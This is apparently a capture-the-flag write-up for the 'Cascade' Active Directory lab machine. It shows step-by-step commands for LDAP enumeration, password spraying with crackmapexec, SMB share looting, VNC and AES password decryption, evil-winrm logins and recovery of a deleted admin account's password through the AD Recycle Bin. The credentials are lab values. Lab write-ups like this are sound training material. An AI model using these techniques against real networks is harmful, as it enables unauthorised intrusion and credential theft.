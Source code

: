 # Cascade - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed standard Active Directory services:
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds  
636/tcp   open  tcpwrapped    
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  tcpwrapped    
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
```

### Domain Information
From the scan results, I identified domain information:
```
Domain: cascade.local
Domain Controller: CASC-DC1.cascade.local
```

### LDAP Enumeration
I performed LDAP enumeration to gather information about users and potential credentials:
```bash
python3 windapsearch.py --dc-ip 10.129.139.161 --full -U
```

Then, I searched specifically for password-related attributes:
```bash
python3 windapsearch.py --dc-ip 10.129.139.161 --full -U | grep -ie "pwd\|password"
```

This revealed an interesting attribute:
```
cascadeLegacyPwd: clk0bjVldmE=
```

## Gaining Initial Access

### Credential Discovery and Decoding
The cascadeLegacyPwd attribute appeared to be base64 encoded. I decoded it:
```bash
echo -n "clk0bjVldmE=" | base64 -d
```

This revealed the password: `rY4n5eva`

Initially, I didn't know which user this password belonged to, so I created a list of potential usernames from the LDAP enumeration results and attempted to brute force:
```bash
crackmapexec smb 10.129.139.161 -u users.txt -p 'rY4n5eva'
```

This revealed valid credentials:
- **Username**: r.thompson
- **Password**: rY4n5eva

### SMB Share Enumeration
Using these credentials, I connected to SMB shares:
```bash
smbclient.py cascade.local/r.thompson:'rY4n5eva'@10.129.139.161
```

I discovered several interesting files:
1. Meeting_Notes_June_2018.html
   - Contained information about a 'TempAdmin' account
   - Mentioned that TempAdmin had the same password as the Administrator account
   - This account had been deleted but could potentially be recovered

2. VNC Install.reg
   - Contained registry information for TightVNC Server
   - Included an encrypted password: `"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f`

### VNC Password Decryption
I used a VNC password decryption tool to decrypt the password:
```bash
python2 vncpasswd.py -d 6bcf2a4b6e5aca0f -H
```

This revealed a new password: `sT333ve2`

## Lateral Movement

### Access as s.smith
I attempted to use the VNC password with user s.smith:
```bash
evil-winrm -i 10.129.139.161 -u s.smith -p 'sT333ve2'
```

This provided access as s.smith.

### Further Enumeration
As s.smith, I connected to SMB to explore additional shares:
```bash
smbclient.py cascade.local/s.smith:'sT333ve2'@10.129.139.161
```

I discovered an Audit$ share containing an SQLite database named Audit.db:
```bash
get Audit.db
```

### Database Analysis
I analyzed the database using SQLite Browser and found a table named 'ldap' containing credential information:
```
Username: ArkSvc
Password: BQO5l5Kj9MdErXx6Q6AGOw==
Domain: cascade.local
```

The password appeared to be encrypted. Simple base64 decoding didn't yield usable results.

### Reverse Engineering the Encryption
I decompiled a related binary found in the Audit share to understand the encryption mechanism. Using ILSpy, I discovered it was using AES encryption with:
```
IV: 1tdyjCbY1Ix49842 (hex: 317464796a4362593149783439383432)
Key: c4scadek3y654321 (hex: 633473636164656b3379363534333231)
```

Using this information, I decrypted the password:
```bash
python3 -c "from Crypto.Cipher import AES; import base64; key=b'c4scadek3y654321'; iv=b'1tdyjCbY1Ix49842'; cipher=AES.new(key,AES.MODE_CBC,iv); print(cipher.decrypt(base64.b64decode('BQO5l5Kj9MdErXx6Q6AGOw==')).decode('utf-8'))"
```

This revealed the credentials:
- **Username**: arksvc
- **Password**: w3lc0meFr31nd

## Privilege Escalation

### AD Recycle Bin Enumeration
I discovered that the arksvc user was a member of the "AD Recycle Bin" group, which allows viewing deleted AD objects. I connected with the new credentials:
```bash
evil-winrm -i 10.129.139.161 -u arksvc -p 'w3lc0meFr31nd'
```

Then used PowerShell to search for deleted objects:
```powershell
Get-ADObject -ldapfilter "(&(ObjectClass=user)(isDeleted=TRUE))" -IncludeDeletedObjects
```

This revealed the deleted TempAdmin account with an interesting attribute:
```
cascadeLegacyPwd: YmFDVDNyMWFOMDBkbGVz
```

### Decoding the Administrator Password
I decoded the discovered base64 string:
```bash
echo -n "YmFDVDNyMWFOMDBkbGVz" | base64 -d
```

This revealed the password: `baCT3r1aN00dles`

According to the earlier notes, TempAdmin shared the same password as Administrator, so I attempted to login as Administrator:
```bash
evil-winrm -i 10.129.139.161 -u Administrator -p 'baCT3r1aN00dles'
```

This provided access as Administrator, successfully completing the challenge.

I verified the access by checking administrative privileges:
```powershell
whoami /all
```